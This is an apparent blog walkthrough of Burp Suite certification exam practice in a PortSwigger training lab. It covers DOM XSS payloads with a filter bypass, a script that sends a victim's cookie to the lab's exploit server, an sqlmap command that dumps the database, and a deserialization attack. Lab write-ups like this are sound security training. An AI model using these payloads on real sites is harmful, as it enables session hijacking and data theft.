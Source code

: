 # Burp Suite Certified Practitioner Exam Preparation Walkthrough

---
toc: true
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true
title: Burp Suite Exam Prep !
header:
  image: /assets/images/post1/image.png
  teaser: /assets/images/post1/teaser.png
  
---


### **EXAM PREP**

**1/3: XSS**

DOM XSS in lookup function :

When the app is launched we immediatly see the search bar, what I always try is for XSS. 
I use the “Untrusted types” on Chrome. 

I put something in search and click on “search”

![untrusted.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/untrusted.png)

By referring to DOM XSS labs on Portswigger, we see that there are 2 DOM XSS payloads who can work here : 

```jsx
\\"-alert(1)}//
or
"-alert(1)-"
```

XSS can be used to steal cookies of other users, then we need to try : 

```jsx
\\"-alert(document.cookie)}//
```

But no luck : 

![XSS blocked.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/XSS_blocked.png)

We need to find a bypass and I found on the internet that we can bypass it by using : 

```jsx
\\"-alert(window["document"]["cookie"])}//
```

![XSS Bypassed.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/XSS_Bypassed.png)

Now that we have the good payload we have to construct a payload with the exploit server link :

Add this code in exploit-server and 

```jsx
<script>

location='https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/?SearchTerm=%22-%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-0a6d00a40340d487c0a03af7016a000c%252eexploit-server%252enet%2F%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29-%22';

</script>
```

![Capture d’écran 2023-02-03 à 14.05.12.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/Capture_decran_2023-02-03_a_14.05.12.png)

We just have to replace the session cookie to have access to Carlos account. 

**2/3 SQL Injection**

We have access to a new feature : 

![AdvancedSearch.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/AdvancedSearch.png)

We see a parameter ⇒ sorted-by vulnerable to SQLi

![VulnParam.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/VulnParam.png)

I launched the sqlmap command below : 

```jsx
sqlmap -u "[https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/filtered_search?SearchTerm=&writer=&sort-by=DATE*](https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/filtered_search?SearchTerm=&writer=&sort-by=DATE*)" --cookie="_lab=46%7cMCwCFAuZTmvz13aVBBW1bpQM25dE2RVNAhRq8fmJk1vCl2i8uauGpq2N%2bIytqdEsQkFl0b%2b8pNzF%2f4p3No1yF19zA%2bj3GuVuecfTlUlSWFGu7SfWBmEz6Mu0JEWnJg5r4GggAibBFB9QtX0gMd%2fLhfFCfcTKNJtOaZ4mGvaUex6vw3k%3d; session=F8UksvHTO0lwQgGckaeEpePsgEJQTvs2" --dump
```

![SQLi result.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/SQLi_result.png)

Now time to visit admin-panel and see what’s the next bug ! 

**3/3** ****DESERIALIZATION:****

Using Burp Scanner we can see that admin_pref are vulnerable :

![Launch Scan.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/Launch_Scan.png)

![Burp Scan.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/Burp_Scan.png)

Using Deserialization Scanner plugin on Burp gave me these informations : 

![JavaDeserialization.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/JavaDeserialization.png)

Once the payload is generated and the request sent, we can go back to Burp Collaborator to see if we have a ping back : 

![Solution.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/Solution.png)

BINGO ! We have then finished the lab. 

I hope you enjoyed reading this article as much as I enjoyed writing it.
